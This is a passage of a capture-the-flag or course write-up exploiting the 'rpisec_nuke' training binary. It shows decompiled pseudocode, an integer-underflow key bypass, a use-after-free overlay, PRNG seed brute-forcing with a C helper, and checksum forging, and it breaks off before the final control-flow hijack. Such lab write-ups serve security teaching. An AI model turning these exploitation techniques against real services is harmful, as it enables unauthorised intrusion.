





For Project 2, we are given a binary named `rpisec_nuke` and tasked with exploiting a service running this binary on the remote warzone server.
No source code is given.

If we run `checksec`, we can see that stack canaries, NX, PIE and full RELRO are enabled.


CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL


The program starts by `malloc()`-ing a chunk of size `0x34` for a `wopr` object. 
We can define the struct as follows. 

Next, if the files `GENERAL_DOOM.key`, `GENERAL_HOTZ.key` and `GENERAL_CROWELL.key` exist, these keys are loaded into memory and the following menu is printed:


+-----------------------------------------------------+
|WARZONEWARZONEWARZONEWARZONEWARZONEWARZONEWARZONEWARZ|
|ONEWARZONEWAR -=[ RPISEC CYBER NUKE ]=- RZONEWARZONEW|
|ARZONEWARZONE ---=[ CONTROL PANEL ]=--- EWARZONEWARZO|
|NEWARZONEWARZONEWARZONEWARZONEWARZONEWARZONEWARZONEWA|
|RZO [ /!\ AUTHORIZED ACCESS ONLY - KEEP OUT /!\ ] ZON|
+-----------------------------------------------------+
|=---------=[ LAUNCH SESSION - 1448484872 ]=---------=|
|                  -=[  STANDBY  ]=-                  |
|                          !                          |
|                     +----+----+                     |
|                     |   \ /   |                     |
|        + - - - - - -+    X    +- - - - - - +        |
|        !            |   / \   |            !        |
|        !            +----+----+            !        |
|   +----+----+            !            +----+----+   |
|   |   KEY   |      +-----+-----+      |   KEY   |   |
|   |   [1]   |      |    KEY    |      |   [3]   |   |
|   |         |      |    [2]    |      |         |   |
+---+---------+------+-----------+------+---------+---+
  MENU SELECTION: 


We are given the option of unlocking 3 keys, and each key is unlocked using a different function.
If we unlock all the keys, we will be given access to arm the nuke, and if we arm the nuke, we can launch it and "win".
While we do this, we also need to keep an eye out for ways to control `EIP` so that we can gain code exec and spawn a shell.

The first vulnerability we can observe is in the menu that is printed. 

**The address of our `wopr` chunk is leaked when `LAUNCH SESSION - 1448484872` is printed.**

Next, let's try to unlock key 1.

## KEY 1
We can define the key 1 struct as follows.

And the pseudocode for `keyauth_one()` looks like the following: 


signed int __cdecl keyauth_one(int chunk)
{
  int v1; // edx@2
  int v2; // ecx@2
  signed int result; // eax@2
  unsigned __int8 len_user_key; // ST1B_1@6
  size_t v5; // eax@7
  char *keyauth_one; // [sp+18h] [bp-90h]@6
  char user_key; // [sp+1Ch] [bp-8Ch]@6
  int cookie; // [sp+9Ch] [bp-Ch]@1

  cookie = *MK_FP(__GS__, 20);
  if ( *(_DWORD *)(chunk + 0x10) == 0xCAC380CD )
  {
    print_wbar("ALREADY AUTHENTICATED\n", 6);
    result = 1;
  }
  else
  {
    print_wbar_animated("ESTABLISHING SECURE AUTHENTICATION CHANNEL", 1, 25);
    print_animated((int)"...\n", 1, 400);
    if ( *(_DWORD *)(chunk + 0x24) )
    {
      print_wbar("RECONNECTED!\n", 7);
    }
    else
    {
      *(_DWORD *)(chunk + 0x24) = malloc(256u);
      memset(*(void **)(chunk + 0x24), 0, 0x100u);
      strncpy((char *)(*(_DWORD *)(chunk + 0x24) + 0x80), *(const char **)(chunk + 4), 0x7Fu);
      print_wbar("SECURE CHANNEL ESTABLISHED\n", 7);
    }
    keyauth_one = *(char **)(chunk + 0x24);
    print_wbar("INSERT LAUNCH KEY: ", 1);
    fgets(&user_key, 0x80, stdin);
    len_user_key = strlen(&user_key) - 1;
    strncpy(keyauth_one, &user_key, len_user_key);
    memset(&user_key, 0, 0x80u);
    print_wbar_animated("CHECKING KEY", 1, 25);
    print_animated((int)"...\n", 1, 600);
    if ( len_user_key && (v5 = strlen(keyauth_one + 0x80), !strncmp(keyauth_one, keyauth_one + 0x80, v5)) )
    {
      print_wbar("KEY AUTHENTICATED\n", 7);
      *(_DWORD *)(chunk + 0x10) = 0xCAC380CD;
      result = 0;
    }
    else
    {
      print_wbar("AUTHENTICATION FAILURE\n", 6);
      check_attempts(chunk);
      result = 1;
    }
  }
  if ( *MK_FP(__GS__, 20) != cookie )
    _stack_chk_fail_local(v2, v1);
  return result;
}


We are asked to enter a launch key, and this launch key is `strncmp()`-ed with the string in `GENERAL_HOTZ.key` for not more than `strlen(GENERAL_HOTZ.key)` bytes.

**If we look carefully, we can see there is an integer underflow vulnerability that allows us to trivially bypass this check!**
**Specifically, we can trigger this integer underflow vulnerability if we set our user launch key to be a single null byte, or `\x00`.** 

When we set our user key to `\x00`, `unsigned __int8 len_user_key` will be set to `0xff` when `len_user_key = strlen(&user_key) - 1;` is called, because `0-1 = 0xffffffff` and an `unsigned __int8` type is 8 bits. 

**Next**, `strncpy(keyauth_one, &user_key, len_user_key);` is called, which copies `0xff` bytes from `user_key`, to `keyauth_one`. However, we've only allocated `0x80` bytes for `keyauth_one`. `keyauth_one+0x80` is where the actual data from `GENERAL_HOTZ.key` is stored, and when this `strncpy()` is called, the data there will be overwritten!

Interestingly, if we read the manpage for `strncpy()`, we can see the following. 

If the length of src is less than n, strncpy() writes additional null bytes to dest to ensure that a total of n bytes are written.


Therefore, even though the actual length of our `user_key` is `0` bytes, `strncpy()` will still fill the rest of the `0xff` bytes with null bytes!

So the data stored in `GENERAL_HOTZ.key` will be overwritten with null bytes.

Finally, `strncmp()`, which is called next, contains the following statement in its manpage.

The strncmp() function compares not more than n characters. Because strncmp() is designed for comparing strings rather than binary data, characters that appear after a `\0' character are not compared.


So, because both our `user_key` and `hotz_key` buffers contain a `\x00` as their first byte, nothing after it will be compared.
And because `\x00 == \x00`, we will pass this check and unlock key 1 :)

## KEY 3
Unlocking keys 3 and 2 is a little trickier. 
And the reason I say keys 3 and 2, instead of 2 and 3, is because I unlocked key 3 before I unlocked key 2 using a **use-after-free** vulnerability I found, that overlayed a key 2 object over a key 3 object.

If we examine key 3, we can define its `0xc4` byte struct as follows.

If we look at the pseudocode, we can see the following:


signed int __cdecl keyauth_three(int chunk)
{
  int v1; // edx@2
  int v2; // ecx@2
  signed int result; // eax@2
  int v4; // esi@8
  time_t v5; // eax@10
  int v6; // esi@11
  unsigned int i; // [sp+1Ch] [bp-BCh]@7
  unsigned int j; // [sp+1Ch] [bp-BCh]@10
  unsigned int k; // [sp+1Ch] [bp-BCh]@13
  int keyauth_three; // [sp+20h] [bp-B8h]@7
  char doom_key[16]; // [sp+2Bh] [bp-ADh]@13
  char response[129]; // [sp+3Bh] [bp-9Dh]@4
  int v13; // [sp+BCh] [bp-1Ch]@1

  v13 = *MK_FP(__GS__, 20);
  print_wbar_animated("ESTABLISHING SECURE AUTHENTICATION CHANNEL", 3, 25);
  print_animated((int)"...\n", 3, 400);
  if ( *(_DWORD *)(chunk + 0x18) == 0xACC3D489 )
  {
    print_wbar("ALREADY AUTHENTICATED\n", 6);
    result = 1;
    goto LABEL_21;
  }
  if ( *(_DWORD *)(chunk + 0x2C) )
  {
    print_wbar("RECONNECTED!\n", 7);
  }
  else
  {
    *(_DWORD *)(chunk + 0x2C) = malloc(0xC4u);
    memset(*(void **)(chunk + 0x2C), 0, 0xC4u);
    print_wbar("SECURE CHANNEL ESTABLISHED\n", 7);
    print_wbar_animated("PLEASE CONFIRM LAUNCH SESSION #: ", 3, 0x19);
    fgets(response, 0x14, stdin);
    if ( strtoul(response, 0, 10) != *(_DWORD *)chunk )
    {
      print_wbar_animated("INVALID LAUNCH SESSION\n", 6, 0x19);
      free(*(void **)(chunk + 0x2C));
      check_attempts(chunk);
      result = 1;
      goto LABEL_21;
    }
  }
  keyauth_three = *(_DWORD *)(chunk + 0x2C);
  memset(response, 0, 0x81u);
  print_wbar_animated("CHALLENGE-RESPONSE KEY VERIFICATION\n", 3, 25);
  print_wbar_animated("REQUESTING CHALLENGE\n", 3, 25);
  print_wbar_animated(".............\n", 3, 100);
  for ( i = 0; i <= 0xF; ++i )
  {
    v4 = *(_DWORD *)(keyauth_three + 4 * i + 4);
    *(_DWORD *)(keyauth_three + 4 * i + 4) = rand() ^ v4;
  }
  puts("-------------------------------------------------------");
  print_wbar("CHALLENGE (64 Bytes):\n", 8);
  print_hex(keyauth_three + 4, 64, 8);
  puts("-------------------------------------------------------");
  print_wbar("\n", 3);
  print_wbar_animated("RESPONSE MUST BE ENTERED IN HEX FORMAT\n", 3, 25);
  print_wbar_animated("EXAMPLE: 4C304C4343444331534630524E75427A\n", 3, 25);
  print_wbar("\n", 3);
  print_wbar_animated("TIME NOW: ", 3, 25);
  v5 = time(0);
  printf("%u\n", v5);
  print_wbar_animated("YOUR RESPONSE: ", 3, 25);
  memset((void *)(keyauth_three + 0x44), 0, 0x40u);
  fgets(response, 129, stdin);
  response[strcspn(response, "\n")] = 0;
  hex2byte(keyauth_three + 0x44, response, 64);
  puts("-------------------------------------------------------");
  print_wbar("DATA RECIEVED:\n", 7);
  print_hex(keyauth_three + 0x44, 64, 7);
  puts("-------------------------------------------------------");
  print_wbar_animated("CHALLENGE-RESPONSE COMPLETE\n", 3, 35);
  print_wbar_animated("ANALYZING THE PROVIDED RESPONSE\n", 3, 35);
  print_wbar_animated("......", 3, 750);
  print_animated((int)"..............", 3, 400);
  print_animated((int)"....\n", 3, 25);
  for ( j = 0; j <= 0xF; ++j )
  {
    v6 = *(_DWORD *)(keyauth_three + 4 * j + 4);
    *(_DWORD *)(keyauth_three + 4 * j + 4) = rand() ^ v6;
  }
  memset(doom_key, 0, 0x10u);
  hex2byte(doom_key, *(_DWORD *)(chunk + 0xC), 16);
  for ( k = 0; k <= 3; ++k )
    *(_DWORD *)(keyauth_three + 20 * k + 4) ^= *(_DWORD *)&doom_key[4 * k];
  if ( !memcmp((const void *)(keyauth_three + 4), (const void *)(keyauth_three + 68), 0x40u) )
    *(_DWORD *)(keyauth_three + 0x84) = 0x31337;
  memset((void *)(keyauth_three + 4), 0, 0x40u);
  memset((void *)(keyauth_three + 0x44), 0, 0x40u);
  if ( (*(_DWORD *)(keyauth_three + 0x84) & 0xFFFFFF) == 0x31337 )
  {
    print_wbar("VALID RESPONSE, KEY AUTHENTICATED\n", 7);
    print_wbar("KEY AUTHENTICATED\n", 7);
    *(_DWORD *)(chunk + 24) = 0xACC3D489;
    result = 0;
  }
  else
  {
    print_wbar("INVALID RESPONSE, AUTHENTICATION FAILURE\n", 6);
    check_attempts(chunk);
    result = 1;
  }
LABEL_21:
  if ( *MK_FP(__GS__, 20) != v13 )
    _stack_chk_fail_local(v2, v1);
  return result;
}


**Notice that if we don't enter the correct launch session #, our key 3 chunk is freed!** 

Otherwise, the normal routine for checking key 3 is carried out. 
If we skip to the end, we notice that the primary check occurs here:


if ( (*(_DWORD *)(keyauth_three + 0x84) & 0xFFFFFF) == 0x31337 )
 {
   print_wbar("VALID RESPONSE, KEY AUTHENTICATED\n", 7);
   print_wbar("KEY AUTHENTICATED\n", 7);
   *(_DWORD *)(chunk + 24) = 0xACC3D489;
   result = 0;
 }


If the data that exists at `keyauth_three + 0x84` is equal to `0x31337`, we will unlock key 3! 

Let's keep this in mind and move onto key 2. 

Now, if we examine the struct for key 2, we see the following.

 

And the pseudocode for the key 2 checking routine is as follows:

signed int __cdecl keyauth_two(int chunk)
{
  int v1; // edx@2
  int v2; // ecx@2
  signed int result; // eax@2
  signed int encryption_size; // eax@12
  int IV; // eax@14
  int v6; // eax@14
  int keyauth_two; // [sp+2Ch] [bp-13Ch]@6
  unsigned __int32 v8; // [sp+30h] [bp-138h]@6
  char v9; // [sp+34h] [bp-134h]@14
  char s[34]; // [sp+12Ah] [bp-3Eh]@6
  int cookie; // [sp+14Ch] [bp-1Ch]@1

  cookie = *MK_FP(__GS__, 20);
  print_wbar_animated("ESTABLISHING SECURE AUTHENTICATION CHANNEL", 2, 25);
  print_animated((int)"...\n", 2, 400);
  if ( *(_DWORD *)(chunk + 0x14) == 0xBADC0DED )
  {
    print_wbar("ALREADY AUTHENTICATED\n", 6);
    result = 1;
  }
  else
  {
    if ( *(_DWORD *)(chunk + 40) )
    {
      print_wbar("RECONNECTED!\n", 7);
    }
    else
    {
      *(_DWORD *)(chunk + 0x28) = malloc(0x94u);
      memset(*(void **)(chunk + 0x28), 0, 0x94u);
      print_wbar("SECURE CHANNEL ESTABLISHED\n", 7);
    }
    keyauth_two = *(_DWORD *)(chunk + 0x28);
    memset(s, 0, 0x22u);
    print_wbar_animated("CRYPTO KEY VERIFICATION REQUIRED\n", 2, 25);
    print_wbar_animated("INITIALIZING AES CRYPTO ENGINE...\n", 2, 25);
    print_wbar_animated(".....................READY\n", 2, 100);
    print_wbar("\n", 2);
    print_wbar_animated("KEY MUST BE ENTERED IN HEX FORMAT\n", 2, 25);
    print_wbar_animated("EXAMPLE: 0339FC928165D2912F001FD24AF3AC64\n", 2, 25);
    print_wbar("\n", 2);
    print_wbar_animated("ENTER AES-128 CRYPTO KEY: ", 2, 25);
    fgets(s, 34, stdin);
    s[strcspn(s, "\n")] = 0;
    hex2byte(keyauth_two + 0x34, *(_DWORD *)(chunk + 8), 16);
    hex2byte(keyauth_two + 0x44, s, 16);
    puts("-------------------------------------------------------");
    print_wbar("AES KEY SUCCESSFULLY LOADED\n", 7);
    print_hex(keyauth_two + 68, 16, 7);
    puts("-------------------------------------------------------");
    print_wbar_animated("STARTING CRYPTO CHALLENGE\n", 2, 25);
    print_wbar_animated("ENTER LENGTH OF DATA (16 OR 32): ", 2, 25);
    fgets(s, 34, stdin);
    v8 = strtoul(s, 0, 10);
    if ( v8 & 0xF || !v8 )
      print_wbar_animated("AES ONLY ENCRYPTS IN BLOCKS OF 16 BYTES\n", 6, 25);
    if ( v8 > 0x20 )
      print_wbar_animated("MAXIMUM ENCRYPTION SIZE IS 32 BYTES\n", 6, 25);
    if ( v8 <= 0x10 )
      encryption_size = 16;
    else
      encryption_size = 32;
    *(_DWORD *)keyauth_two = encryption_size;
    print_wbar_animated("DATA LENGTH SET TO ", 2, 25);
    printf("%u\n", *(_DWORD *)keyauth_two);
    print_wbar_animated("ENTER DATA TO ENCRYPT: ", 2, 25);
    read(0, (void *)(keyauth_two + 4), *(_DWORD *)keyauth_two);
    puts("-------------------------------------------------------");
    print_wbar("DATA RECIEVED:\n", 7);
    print_hex(keyauth_two + 4, *(_DWORD *)keyauth_two, 7);
    puts("-------------------------------------------------------");
    print_wbar_animated("COMPUTING AUTHENTICATION DATA\n", 2, 30);
    print_wbar_animated("ENCRYPTING...", 2, 30);
    print_animated((int)"....", 2, 300);
    print_animated((int)".......", 2, 100);
    print_animated((int)"...........\n", 2, 50);
    IV = keyauth_two + 0x24;
    *(_DWORD *)IV = AUTH2_AES_IV;
    *(_DWORD *)(IV + 4) = 0xDEADC0DE;
    *(_DWORD *)(IV + 8) = 0xBABECAFE;
    *(_DWORD *)(IV + 0xC) = 0xA55B00B;
    AES_set_encrypt_key(keyauth_two + 0x34, 128, (int)&v9);
    AES_cbc_encrypt(keyauth_two + 4, keyauth_two + 84, *(_DWORD *)keyauth_two, &v9, keyauth_two + 36, 1);
    v6 = keyauth_two + 36;
    *(_DWORD *)v6 = AUTH2_AES_IV;
    *(_DWORD *)(v6 + 4) = 0xDEADC0DE;
    *(_DWORD *)(v6 + 8) = 0xBABECAFE;
    *(_DWORD *)(v6 + 12) = 0xA55B00B;
    AES_set_encrypt_key(keyauth_two + 68, 128, (int)&v9);
    AES_cbc_encrypt(keyauth_two + 4, keyauth_two + 116, *(_DWORD *)keyauth_two, &v9, keyauth_two + 36, 1);
    puts("-------------------------------------------------------");
    print_wbar_animated("CLIENT AES-128 CBC ENCRYPTED DATA:\n", 7, 25);
    print_hex(keyauth_two + 0x74, *(_DWORD *)keyauth_two, 7);
    puts("-------------------------------------------------------");
    print_wbar_animated("AUTHENTICATING...", 2, 30);
    print_animated((int)"........", 2, 200);
    print_animated((int)"..", 2, 400);
    print_animated((int)"....\n", 2, 30);
    if ( !memcmp((const void *)(keyauth_two + 0x74), (const void *)(keyauth_two + 0x54), *(_DWORD *)keyauth_two)
      && !strcmp((const char *)(keyauth_two + 4), "KING CROWELL") )
    {
      print_wbar("CRYPTO KEY AUTHENTICATED\n", 7);
      *(_DWORD *)(chunk + 0x14) = 0xBADC0DED;
      result = 0;
    }
    else
    {
      print_wbar("DATA MISMATCH\n", 6);
      print_wbar("CRYPTO AUTHENTICATION FAILED\n", 6);
      check_attempts(chunk);
      result = 1;
    }
  }
  if ( *MK_FP(__GS__, 20) != cookie )
    _stack_chk_fail_local(v2, v1);
  return result;
}


Let's break this function down.
`keyauth_two()` first takes both a 16-byte AES-128 crypto key and 16 or 32-bytes of data from the user. The user provided key is then used to AES encrypt the data using a static initializtion vector (IV), `0xfeedfacfdeadc0debabecafe0a55b00b`.

The same data is also encrypted in the same way except using the actual data from `GENERAL_CROWELL.key`.

The ciphertext of the data that is encrypted using the actual `crowell_key` is stored at offset `keyauth_two_chunk+0x54`, and the ciphertext that was generated using our user provided key is stored at offset `keyauth_two_chunk+0x74`.    

If we consider the fact that we can free the key 3 object and allocate a key 2 object over this, our goal becomes clear.
**We need to generate a ciphertext using our user-provided AES crypto key in such a way that `0x31337` is written to offset `keyauth_two_chunk+0x84`. If we do this, then the next time we attempt to unlock key 3, we will pass the check at the end of the key 3 validation function, and unlock key 3!** 

We can easily find the plaintext that will generate a ciphertext that meets this condition using the python library, PyCrypto. 

We first set our key to be 16 `0x0`'s. Then we set our ciphertext to contain `0x31337` at offset `ciphertext+0x10`. 
  

key = "\x00"*(16)
cipher = "\x00"*0x10+p32(0x31337)+"\x00"*0xc

obj = AES.new(key,AES.MODE_CBC, IV)
plaintext = obj.decrypt(cipher)
 
When we decrypt it, we are able to produce a plaintext that encrypts to a ciphertext with `0x31337` at offset `ciphertext+0x10`!
After using this plaintext as the data to encrypt in `keyauth_two()`, we simply run the `keyauth_three()` method again, providing any input to pass the check and unlock key 3! 

## KEY 2
In order to unlock key 2, we need to exploit the **use-after-free** again, this time using key 3 to produce useful leaks about key 2.

Additionally, we need to understand a bit of crypto.

Let's start with what happens when we submit a valid session ID when authenticating key 3.

When we do this, 0x40 bytes of data starting at `keyauth_three+0x4` are xor'd with randomly generated bytes.

for ( j = 0; j <= 0xF; ++j )
{
    data_byte = *(_DWORD *)(keyauth_three + 4 * j + 4);
    *(_DWORD *)(keyauth_three + 4 * j + 4) = rand() ^ data_byte;
}


The resulting xor'd bytes from `keyauth_three+0x4` through `keyauth_three+0x44` are then printed out.
  

print_hex(keyauth_three + 4, 0x40, 8);



  MENU SELECTION: 3
  ESTABLISHING SECURE AUTHENTICATION CHANNEL...
  SECURE CHANNEL ESTABLISHED
  PLEASE CONFIRM LAUNCH SESSION #: 4166434824
  CHALLENGE-RESPONSE KEY VERIFICATION
  REQUESTING CHALLENGE
  .............
-------------------------------------------------------
  CHALLENGE (64 Bytes):
     05.9A.D6.1B.B7.E8.CB.7D.BB.A1.98.57.3C.B3.3B.41
     0F.02.A8.1E.BB.16.A2.53.11.44.B0.32.B2.CF.FF.6E
     D5.2C.72.2A.00.95.9B.4F.FA.CA.DF.6B.75.29.61.60
     13.65.1B.5F.97.20.28.03.2E.6C.EA.27.D6.0B.6D.23
-------------------------------------------------------
  
  RESPONSE MUST BE ENTERED IN HEX FORMAT
  EXAMPLE: 4C304C4343444331534630524E75427A
  
  TIME NOW: 1488756683
  YOUR RESPONSE: 


There are a couple things to notice here. 
First, if we look again at the how the struct for the `keyauth_two` chunk is defined, we observe that the 16 byte `crowell_key` exists at offset `keyauth_two+0x34`, which aligns with the end of the 64-byte challenge starting at `keyauth_three+0x4` that is printed out in `keyauth_three()`. 


00000034 crowell_key     db 16 dup(?)



00000004 challenge       db 64 dup(?)
00000044 response        db 64 dup(?)


Secondly, we can observe in the output that the current system time is leaked.

TIME NOW: 1488756683
 


print_wbar_animated("TIME NOW: ", 3, 25);
cur_time = time(0);
printf("%u\n", cur_time);


Let's keep this leak in mind because we will need it soon.

**Additionally, because we are using a PRNG, the "randomly" generated bytes that are used for the xor operations are not truly random. If we seed our PRNG twice with the same seed, the same "random" bytes will be generated by `rand()` in the exact same order! PRNGs are only as random as the seed used to initialize them!**

And how is our **PRNG** seeded?

In the `main()` function, our PRNG is seeded using the address of our wopr heap chunk, and also the current calendar time.


wopr_self = *(_DWORD *)wopr;
cur_time = time(0);
srand(wopr_self + cur_time);
 

Well, we already know what the value of `wopr_self` is because it is printed out in the menu. And although we don't know what the current system time is, we can brute force it by using the leak of the system time we got in `keyauth_three()` and decrementing the time from there 
**Therefore, we can recover the seed that was used to initialize our PRNG and reliably predict the bytes that are generated each time `rand()` is called!** 
 
To do this, I actually wrote a separate helper program to print out the starting bytes for different seeds start at `wopr+time` and working my way down. 


#include<stdio.h>
#include<stdlib.h>

int main (int argc, char *argv[]){
    int chunk = atoi(argv[1]);
    int max_time=atoi(argv[2]);
    int i,j;
    int rand_result;
    long try;
    for(i=0; i<60; i++){
        try = (long)chunk+max_time-i;
        printf("attempting seed %ld\n",try);
        srand(chunk+max_time-i);
        for(j=0; j<48; j++){
            rand_result = rand();
            printf("%02x:",rand_result&0xFF);    
            printf("%02x:",((rand_result&0xFF00)/0x100));    
            printf("%02x:",((rand_result&0xFF0000)/0x10000));    
            printf("%02x:",((rand_result&0xFF000000)/0x1000000));    
        }
        printf("\n\n");
    }
    return 0;
}


I did this after re-running `rpisec_nuke` and attempting to decrypt data using a random key 2 and blank data. This is so `keyauth_three+0x4` through `keyauth_three+0x24` will be filled with null bytes, allowing us to compare the resulting `rand()` generated bytes with our brute force results.

Putting everything together, this is the flow we will use to crack key 2.

1. allocate key 3 chunk
1. free key 3 chunk
1. allocate key 2 chunk with blank data
1. attempt to validate key 3 again 
1. view challenge output & compare to expected rand() bytes

In our run session of `rpisec_nuke`, we get the following challenge output:

CHALLENGE (64 Bytes):
F2.CC.C2.65.8F.31.AC.15.42.53.EC.27.85.84.26.7D
75.B8.86.45.81.04.80.2E.D1.6D.F2.60.30.9D.F7.30
DA.B0.1F.DB.C1.17.ED.4F.2A.A4.63.13.EE.E5.55.81
42.F2.01.12.E2.C5.8A.36.C9.7B.39.60.36.7E.1C.99


The beginning bytes match up with the following output from our brute force C program:

attempting seed 243961812
f2:cc:c2:65:8f:31:ac:15:42:53:ec:27:85:84:26:7d:
75:b8:86:45:81:04:80:2e:d1:6d:f2:60:30:9d:f7:30:
f0:be:a7:05:74:c6:aa:77:98:87:04:75:66:39:d3:60:
0c:64:e6:49:30:54:a4:07:3a:58:76:08:1e:da:b4:0e: 


Therefore, to recover key 2, all we need to do is xor the last 16 bytes!


$ python -c 'print hex(0x0c64e6493054a4073a5876081edab40e^0x42f20112e2c58a36c97b3960367e1c99)'
0x4e96e75bd2912e31f3234f6828a4a897L


And with that, we've cracked key 2!

## ARMING THE NUKE
We can define the `nuke` struct as follows:

The pseudocode for `program_nuke()` is the following:

int __cdecl program_nuke(struct wopr chunk)
{
  int v1; // edx@8
  int v2; // ecx@8
  int v3; // edx@13
  int result; // eax@13
  int nuke; // [sp+14h] [bp-414h]@5
  char nuke_code[1024]; // [sp+1Ch] [bp-40Ch]@5
  int cookie; // [sp+41Ch] [bp-Ch]@1

  cookie = *MK_FP(__GS__, 20);
  if ( !check_keys(chunk.self_ptr) )
    crit_error((int)"UNAUTHORIZED ACCESS DETECTED!");
  if ( !*(_DWORD *)(chunk.self_ptr + 48) )
    *(_DWORD *)(chunk.self_ptr + 0x30) = malloc(0x290u);
  memset(*(void **)(chunk.self_ptr + 0x30), 0, 0x290u);
  nuke = *(_DWORD *)(chunk.self_ptr + 0x30);
  *(_DWORD *)(nuke + 0x288) = disarm_nuke;
  *(_DWORD *)(nuke + 0x28C) = detonate_nuke;
  print_wbar_animated("INITIALIZING CYBER NUKE PROGRAMMING SEQUENCE", 4, 25);
  print_animated((int)"......\n", 4, 100);
  print_wbar_animated("CYBER NUKE ENTERING PROGRAMMING MODE\n", 4, 25);
  print_wbar("LOADING", 4);
  print_animated((int)"...", 4, 600);
  print_animated((int)".........", 4, 100);
  print_animated((int)"...", 4, 1000);
  print_animated((int)".......", 4, 50);
  print_animated((int)"READY\n", 4, 20);
  print_wbar("ENTER CYBER NUKE TARGETING CODE AS HEX STRING: \n", 4);
  puts("-------------------------------------------------------");
  memset(nuke_code, 0, 0x400u);
  fgets(nuke_code, 0x3FA, stdin);
  if ( memchr(nuke_code, 10, 0x400u) )
    nuke_code[strcspn(nuke_code, "\n")] = 0;
  else
    puts((const char *)&unk_90ED);
  hex2byte(nuke + 8, nuke_code, 0x1FC);
  *(_BYTE *)(nuke + 0x204) = 0;
  *(_BYTE *)(nuke + 0x205) = 0x45;
  *(_BYTE *)(nuke + 0x206) = 0x4e;
  *(_BYTE *)(nuke + 0x207) = 0x44;
  puts("-------------------------------------------------------");
  print_wbar_animated("VALIDATING CODE INTEGRITY", 4, 25);
  print_animated((int)"......\n", 4, 100);
  compute_checksum(v1, v2, nuke);
  print_wbar("CYBER NUKE CHECKSUM: ", 4);
  printf("0x%08x\n", *(_DWORD *)nuke);
  if ( *(_DWORD *)nuke == (*(_DWORD *)(chunk.self_ptr + 20) ^ *(_DWORD *)(chunk.self_ptr + 16) ^ *(_DWORD *)(chunk.self_ptr + 24)) )
  {
    *(_DWORD *)(chunk.self_ptr + 0x1C) = 0x5ADC1A55;
    print_wbar("TARGETING CODE VERIFIED\n", 7);
  }
  else
  {
    print_wbar("TARGETING CODE INVALID\n", 6);
    if ( *(_DWORD *)(chunk.self_ptr + 0x1C) != 0x5ADC1A55 )
      abort_launch();
    print_wbar_animated("REPROGRAMMING FAILED\n", 6, 25);
    print_wbar_animated("FORCING EMERGENCY DISARM\n", 6, 25);
    (*(void (**)(void))(nuke + 0x288))();
  }
  print_wbar_animated("FLASHING CYBER NUKE WITH TARGETING CODE\n", 4, 25);
  print_wbar_animated("...25%...50%...75%...100%\n", 4, 150);
  print_wbar("PROGRAMMING COMPLETE\n", 7);
  result = 0;
  if ( *MK_FP(__GS__, 20) != cookie )
    _stack_chk_fail_local(*MK_FP(__GS__, 20) ^ cookie, v3);
  return result;
}


We can see that the only condition needed to pass the check to arm our nuke, is that the first dword of our nuke object needs to be equal to `0xcac380cd^0xbadc0ded^0xacc3d489`, or `0xdcdc59a9`.

We can control the value of our first dword in our nuke object, which is calculated in the `computer_checksum()` function which has the following pseudocode:


int __usercall compute_checksum@<eax>(int a1@<edx>, int nuke_code_hex@<ecx>, int nuke)
{
  int result; // eax@6
  unsigned int i; // [sp+18h] [bp-10h]@3
  int v5; // [sp+1Ch] [bp-Ch]@1

  v5 = *MK_FP(__GS__, 20);
  if ( !nuke )
    crit_error((int)"SYSTEM FAILURE ACCESSING CYBER NUKE");
  *(_DWORD *)nuke = 0;
  for ( i = 0; i <= 0x7F; ++i )
  {
    nuke_code_hex = nuke + 8;
    a1 = *(_DWORD *)(nuke + 8 + 4 * i) ^ *(_DWORD *)nuke;
    *(_DWORD *)nuke = a1;
  }
  result = *(_DWORD *)nuke;
  if ( *MK_FP(__GS__, 20) != v5 )
    _stack_chk_fail_local(nuke_code_hex, a1);
  return result;
}


Essentially, each dword of our inputted nuke code is xor'd against the checksum in the first dword of our nuke object, and the result replaces our current checksum, which is subsequently xor'd with the next dword in order to calculate the new checksum and so on and so forth until the checksum is finally xor'd with the `0x454e44` dword at offset `nuke+0x204`.  

With this in mind, it is trivial to come up with a nuke code that passes this check.

## LAUNCHING THE NUKE
Once we have armed the nuke, we can finally launch it.
However, we still haven't found a way to control EIP yet. 
Forunately, there is a way in the `launch_nuke()` function.

The pseudocode for `launch_nuke()` is as follows.


int __cdecl launch_nuke(int chunk)
{
  int v1; // edx@17
  int result; // eax@17
  int target; // [sp+10h] [bp-18h]@3
  int nuke; // [sp+14h] [bp-14h]@3
  int cookie; // [sp+1Ch] [bp-Ch]@1

  cookie = *MK_FP(__GS__, 20);
  if ( !can_launch(chunk) )
    crit_error((int)"UNAUTHORIZED ACCESS DETECTED!");
  nuke = *(_DWORD *)(chunk + 0x30);
  target = nuke + 0x208;
  print_wbar_animated("CYBER NUKE IS LAUNCHING IN 5\n", 4, 35);
  print_wbar_animated("CYBER NUKE IS LAUNCHING IN 4\n", 4, 35);
  print_wbar_animated("CYBER NUKE IS LAUNCHING IN 3\n", 4, 35);
  print_wbar_animated("CYBER NUKE IS LAUNCHING IN 2\n", 4, 35);
  print_wbar_animated("CYBER NUKE IS LAUNCHING IN 1\n", 4, 35);
  print_wbar_animated("CYBER NUKE IS LAUNCHING....................\n", 4, 35);
  print_wbar_animated(".\n", 4, 950);
